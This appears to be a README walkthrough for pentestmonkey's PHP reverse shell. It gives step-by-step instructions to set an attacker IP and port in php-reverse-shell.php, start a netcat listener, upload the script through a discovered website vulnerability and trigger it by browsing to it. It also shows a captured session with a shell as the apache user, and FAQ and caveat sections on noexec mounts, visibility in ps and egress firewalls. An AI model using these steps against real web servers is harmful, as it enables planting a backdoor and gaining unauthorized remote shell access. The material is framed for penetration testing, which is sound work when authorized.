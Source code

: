 # This is a tool from pentest monkeys!

[Walkthrough](#Walkthrough)
[FAQ](#FAQ)
[Caveats](#Caveats)


## Walk Through
Modify the source

To prevent someone else from abusing your backdoor – a nightmare scenario while pentesting – you need to modify the source code to indicate where you want the reverse shell thrown back to.  Edit the following lines of php-reverse-shell.php:

~~~
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
~~~

### Get Ready to catch the reverse shell

Start a TCP listener on a host and port that will be accessible by the web server.  Use the same port here as you specified in the script (1234 in this example):
~~~
$ nc -v -n -l -p 1234
~~~
### Upload and Run the script

Using whatever vulnerability you’ve discovered in the website, upload php-reverse-shell.php.  Run the script simply by browsing to the newly uploaded file in your web browser (NB: You won’t see any output on the web page, it’ll just hang if successful):

~~~
http://somesite/php-reverse-shell.php
~~~

### Enjoy your new shell

If all went well, the web server should have thrown back a shell to your netcat listener.  Some useful commans such as w, uname -a, id and pwd are run automatically for you:
~~~
$ nc -v -n -l -p 1234
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58012
Linux somehost 2.6.19-gentoo-r5 #1 SMP PREEMPT Sun Apr 1 16:49:38 BST 2007 x86_64 AMD Athlon(tm) 64 X2 Dual Core Processor 4200+ AuthenticAMD GNU/Linux
 16:59:28 up 39 days, 19:54,  2 users,  load average: 0.18, 0.13, 0.10
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
root   :0        19May07 ?xdm?   5:10m  0.01s /bin/sh
uid=81(apache) gid=81(apache) groups=81(apache)
sh: no job control in this shell
sh-3.2$
~~~

## FAQs

### When is this useful?

Perhaps the only areas on disk that you have write access to are mounted with the “noexec” option.  Uploading a compiled program will be of no use in these situations.  You need to use an installed scripting language like Python, PERL, PHP, etc.
Perhaps you just can’t be bothered to upload a second program.

### Isn’t the shell connection just going to be severed when the web server times out the PHP script?

No.  It doesn’t seem to on the systems that I’ve tested it on (Gentoo Linux only so far).  Additionally the PHP script attempts to daemonise itself and dissociate from the parent process to avoid this (though it rarely works in practise).  Your browser will appear to hang when you access the reverse shell.  This is normal.  It’s OK to hit cancel in your browser once you’ve got your shell.

### Isn’t there going to be a rather suspicious looking shell process when the admin runs “ps”?

Yeah.  This version of the reverse shell isn’t very subtle:
~~~
apache   28106  0.0  0.0  10428  1216 ?        S    17:15   0:00 sh -c uname -a; w; id; /bin/sh -i
apache   28110  0.0  0.0  10172  1428 ?        S    17:15   0:00 /bin/sh -i
~~~

## Caveats

Outbound firewalling (aka egress filtering) may prevent your reverse shell connection reaching you.  Pick a port that’s allowed through Firewall.  If there are none, you’ll have to make do with a form-based PHP shell.

This particular implementation of the reverse shell is unix-based.  You’ll need to modify it before it will work on windows.

I’ve noticed a couple of zombie processes while testing this shell.  It doesn’t always happen, but is probably to be expected since we’re not daemonising ourself properly.

---
ref
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
